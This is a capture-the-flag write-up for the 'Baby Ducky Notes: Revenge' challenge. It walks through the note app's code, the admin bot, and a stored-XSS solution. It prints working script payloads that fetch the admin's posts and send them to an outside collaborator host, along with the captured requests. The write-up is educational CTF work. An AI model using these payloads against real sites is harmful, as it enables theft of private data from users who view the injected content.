






# BABY DUCKY NOTES: REVENGE

So it's been a while since I've spun up ye olde pentesting wheels but one warm, rainy day in July 2023, I decided f*** it. I'll brush up the dust and give a few challenges a go again, one of which was `BABY DUCKY NOTES: REVENGE` (clearly an average B movie name).

https://ctf.thefewchosen.com/


## Reconnisance

The challenge was a whitebox (code included) challenge, with the flag stored as an environment variable inside the host container of the application:

```dockerfile
FROM python:3.11-alpine

# Install packages
RUN apk update \
    && apk add --no-cache --update chromium chromium-chromedriver

RUN mkdir -p /serv

WORKDIR /serv
COPY src .

RUN pip3 install --no-cache-dir -r requirements.txt

ENV PYTHONDONTWRITEBYTECODE=1
ENV FLAG=MY_AWESOME_FLAG
ENV ADMIN_PASSWD=MY_PASSWORD

EXPOSE 1337

CMD [ "python3", "app.py"]
```
The application itself appeared to be a classic note taking application, with some extra functionality allowing users to report and share notes.

]

After further investigation of the codebase, it was found that that this flag was then displayed as a hidden note under the admin user upon application startup:

```python
import sqlite3, os

def query(con, query, args=(), one=False):
    c = con.cursor()
    c.execute(query, args)
    rv = [dict((c.description[idx][0], value)
        for idx, value in enumerate(row) if value != None) for row in c.fetchall()]
    return (rv[0] if rv else None) if one else rv
    
def db_init():
    con = sqlite3.connect('database/data.db')
    # Create users database
    query(con, '''
    CREATE TABLE IF NOT EXISTS users (
        id integer PRIMARY KEY,
        username text NOT NULL,
        password text NOT NULL
    );
    ''')
            
    query(con, f'''
    INSERT INTO users (
        username,
        password
        ) VALUES (
            'admin',
            '{os.environ.get("ADMIN_PASSWD")}'
        
    );
    ''')
    
    # Create posts database
 
    query(con, ''' 
    CREATE TABLE IF NOT EXISTS posts (
        id integer PRIMARY KEY,
        user_id integer NOT NULL,
        title text,
        content text NOT NULL,
        hidden boolean NOT NULL,
        FOREIGN KEY (user_id) REFERENCES users (id)
    );
    ''')


    query(con, f''' 
    INSERT INTO posts (
        user_id,
        title,
        content,
        hidden
        ) VALUES (
            1,
            'Here is a ducky flag!',
            '{os.environ.get("FLAG")}',
            1
        );
    ''')

    con.commit()
```

## Abject Failures

Many plans were tried and failed such as:

- SQL Injection of note taking apps: No good, most queries were sanitised.
- SSRF to read localhost notes or interact with environment variables or DB directly: No viable vectors.
- Brute-forcing / guessing the admin password: Unlikely to be effective and the CTF organisers would be slightly angy.

Which left XSS!

## Reporting naughty people

There was a `bot.py` file in the codebase that was executed whenever a user reported a post, presumably to simulate the process of the admin user viewing the suspected bad apple post:

```python
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
import time, os
import debugpy

def bot(username):
    debugpy.debug_this_thread()
    options = Options()
    options.add_argument('--no-sandbox')
    options.add_argument('headless')
    options.add_argument('ignore-certificate-errors')
    options.add_argument('disable-dev-shm-usage')
    options.add_argument('disable-infobars')
    options.add_argument('disable-background-networking')
    options.add_argument('disable-default-apps')
    options.add_argument('disable-extensions')
    options.add_argument('disable-gpu')
    options.add_argument('disable-sync')
    options.add_argument('disable-translate')
    options.add_argument('hide-scrollbars')
    options.add_argument('metrics-recording-only')
    options.add_argument('no-first-run')
    options.add_argument('safebrowsing-disable-auto-update')
    options.add_argument('media-cache-size=1')
    options.add_argument('disk-cache-size=1')
    

    client = webdriver.Chrome(options=options)

    client.get(f"http://localhost:1337/login")
    time.sleep(3)

    client.find_element(By.ID, "username").send_keys('admin')
    client.find_element(By.ID, "password").send_keys(os.environ.get("ADMIN_PASSWD"))
    client.execute_script("document.getElementById('login-btn').click()")
    time.sleep(3)

    client.get(f"http://localhost:1337/posts/view/{username}")
    time.sleep(30)

    client.quit()
```

And ooo, it logs itself in as admin. That could be useful to know for later.

## Mmmm hot cross ~~buns~~ site scripting

So with this knowledge in mind, lets create a note and test for basic XSS:





And yes, looks like there isn't any sanitisation on the content field.

## The attack

So we could try stealing the admin's cookie?

```yaml
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.11.4
Date: Sat, 29 Jul 2023 13:11:14 GMT
Content-Type: application/json
Content-Length: 16
Vary: Cookie
Set-Cookie: session=eyJ1c2VybmFtZSI6InBvb3BvbyJ9.ZMUP8g.53pB0zMJGwwmKo6OvQP4813o0Ek; HttpOnly; Path=/
Connection: close

"Success login"
```

No good. The login JWT is created with the `HttpOnly` flag set, so no access from javascript allowed :(. Although we could try to create a fake login form to try and trick the admin to enter their credentials on a real assessment, no such real human exists here sadly.

So, after a little while of searching my smooth brain for options and trying other routes for a bit, I thought back to the bot. Since it logs in as admin and views all the posts, surely it should view my evil post too. And from there, we might be able to grab the flag from their own post.

So I crafted a payload that I hoped would reach out to my burp collaborator server:

```html
<script>fetch("https://cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com/reachable?true")</script>
```



Bingo! We have a ping. Now to devise an appropriate payload to read the flag:

```html
<script>
    fetch("http://localhost:1337/posts", {
        credentials: "same-origin"
    })
    .then(response => response.text())
    .then(function (data) {
        fetch("https://cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com/convertfirst", {
            method: "POST",
            body: data
        })
    })
</script>
```

This will essentially grab all the posts stored on the application using the admin's credentials (so we can see them all), convert the HTTP response to text and then send it away to my collaborator server. Lets try it out:

```yaml
POST /api/posts HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-GB
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/posts/create
Content-Type: application/json
Content-Length: 396
Origin: http://127.0.0.1:1337
DNT: 1
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6InBvb3BvbyJ9.ZMUP8g.53pB0zMJGwwmKo6OvQP4813o0Ek
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"title":"dnshndasjhndj","content":"<script>\n    fetch(\"http://localhost:1337/posts\", {\n        credentials: \"same-origin\"\n    })\n    .then(response => response.text())\n    .then(function (data) {\n        fetch(\"https://cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com/bodyasstring\", {\n            method: \"POST\",\n            body: data\n        })\n    })\n</script>","hidden":false}
```

Then we report the posts:



Wait a little bit anndddddd....

```
POST /convertfirst HTTP/1.1
Host: cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com
Connection: keep-alive
Content-Length: 2492
sec-ch-ua: "Not/A)Brand";v="99", "HeadlessChrome";v="115", "Chromium";v="115"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/115.0.5790.110 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://localhost:1337
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:1337/
Accept-Encoding: gzip, deflate, br

<!DOCTYPE html>
<html lang="en">

<head>
    <meta name="viewport" content="width=device-width">
    <title>Baby Ducky Notes: Revenge!</title>
    <script src="/static/js/jquery.js"></script>
    <script src="/static/js/report.js"></script>
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link rel="stylesheet" href="/static/css/styles.css" />
</head>

<body>
    
    <nav class="navbar">
        <div id="trapezoid">
            <a href="/login" class="expandHome">Login</a>
            <a href="/register" class="expandHome">Register</a>
            <a href="/posts/view/admin" class="expandHome">View</a>
            <a href="/posts/create" class="expandHome">Create</a>
        </div>
    </nav>

    <div class="posts_list">
    <ul class="posts_ul">
        
        <li>
            <div class="blog_post">
                <div class="container_copy">
                  <h1> Here is a ducky flag! </h1>
                  <h3> admin </h3>
                  <p> TFCCTF{Ev3ry_duCk_kn0w5_xSs!} </p>
                </div>
            </div>
        </li>
        
        <li>
            <div class="blog_post">
                <div class="container_copy">
                  <h1> SendPosts </h1>
                  <h3> morgan </h3>
                  <p> <script>
    fetch("http://localhost:1337/posts", {
        credentials: "same-origin"
    })
    .then(response => response.text())
    .then(function (data) {
        fetch("https://cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com/convertfirst", {
            method: "POST",
            body: data
        })
    })
</script> </p>
                </div>
            </div>
        </li>
         
    </ul>
    </div>

    <div class="report">
        <div class="message" id="alert-msg" hidden ></div>
        <button type="button" id="report-btn">Report to admin</button>
    </div>
    
    <footer>
        <div class="footer-content">
            <h3>Disclaimer</h3>
            <p>This challenge is made to be hacked. Any indication of proper usage or untapped activity will result in legal sanctions. Happy hacking!</p>
        </div>
        <div class="footer-bottom">
            <p>copyright &copy; <a href="#">Sagi / The Few Chosen CTF 2023 </a>  </p>
            <div id="pot">
                
              </div>
        </div>

    </footer>
    
</body>

</html>
```

And there we go, we got the flag!

## Flag

`TFCCTF{Ev3ry_duCk_kn0w5_xSs!}`
